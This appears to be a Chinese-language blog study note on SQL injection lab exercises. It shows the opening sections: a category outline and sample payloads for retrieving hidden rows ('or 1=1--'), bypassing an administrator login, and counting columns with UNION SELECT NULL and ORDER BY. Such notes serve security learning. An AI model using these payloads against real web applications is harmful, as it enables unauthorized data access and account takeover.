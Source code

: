 ```yaml
---
title: "SQL注入-刷题A"
date: 2022-12-18T17:35:33+08:00
tags: ["SQL注入"]
draft: false
featured_image: "/images/laeeb.jpg"
---
```


针对不同数据库的备忘录可在链接中找。

大体分类：

T0~T1 字符/数字型注入

T2~T5  union注入

T6~T10 数据库的版本问题+union注入和数据库本身保留字

T11~T13盲注

T14带外

# T0允许检索隐藏数据的注入

知道注入点以后，判断属于字符型注入还是数字型注入

```SQL
whatever' or 1=1--
```

url中用加号链接，加号就代表空格

``````
https://insecure-website.com/products?category=Gifts'+OR+1=1--
``````

# T1允许绕过登录的注入

已知我需要拿用户名administrator登录

```SQL
administrator'--
```

# UNION从其他表中检索数据

## T2测试列数

``````sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
或者
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
``````

